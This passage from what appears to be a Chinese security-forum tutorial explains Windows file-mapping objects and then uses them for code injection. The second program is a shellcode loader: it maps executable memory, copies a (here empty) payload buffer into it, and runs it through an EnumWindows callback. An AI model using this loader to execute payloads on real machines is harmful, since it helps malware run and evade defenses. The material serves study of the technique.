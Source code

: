Read.cpp  
用于打开Write.cpp中创建的内存映射对象，并读取内存空间中的数据

```php
#include <windows.h>
#include <iostream>

using namespace std;

int main(){
    HANDLE OpenFileM = OpenFileMappingA(FILE_MAP_READ, FALSE, "Mapping");
    if (OpenFileM == NULL) {
        cout << "[-] Open Mapping Error: " << GetLastError() << endl;
        return 1;
    }
    cout << "[+] Open Mapping Success" << endl;

    LPVOID Address = MapViewOfFile(OpenFileM, FILE_MAP_READ, 0, 0, 0);
    if (Address == NULL) {
        cout << "[-] MapViewOfFile Error: " << GetLastError() << endl;
    }
    wcout << "[+] Success read: " << (char*)Address << endl;

    system("pause");
    UnmapViewOfFile(Address);
    CloseHandle(OpenFileM);
}
```

![2.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-c2c25d8ff3b85fce3ef8f8abfbc6722abedf6b19.png)

用户函数实现
------

现在是不是很清晰了，现在我们看看如何利用其进程注入，根据前面的知识，我们现在可以很清晰的知道接下来的思路

- 用CreateFileMappingA函数创建一个文件映射对象
- 使用MapViewOfFile将文件映射对象映射到本地进程内存空间中
- 然后将我们的数据写入到内存空间中

```php
#include <windows.h>
#include <iostream>

using namespace std;

int main() {
    unsigned char buf[] = "";

    DWORD pflOldProtect = 0;
    //创建一个文件映射对象
    HANDLE CreateFileM = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(buf), NULL);
    //将创建的文件映射对象映射到当前进程的内存空间
    LPVOID Address = MapViewOfFile(CreateFileM, FILE_MAP_EXECUTE| FILE_MAP_READ| FILE_MAP_WRITE, 0, 0, 0);
    if (Address == NULL) {
        cout << "[-] MapViewOfFile Error: " << GetLastError() << endl;
    }
    memcpy(Address, buf, sizeof(buf));
    EnumWindows((WNDENUMPROC)Address, NULL);

    UnmapViewOfFile(Address);
    CloseHandle(CreateFileM);
}
```
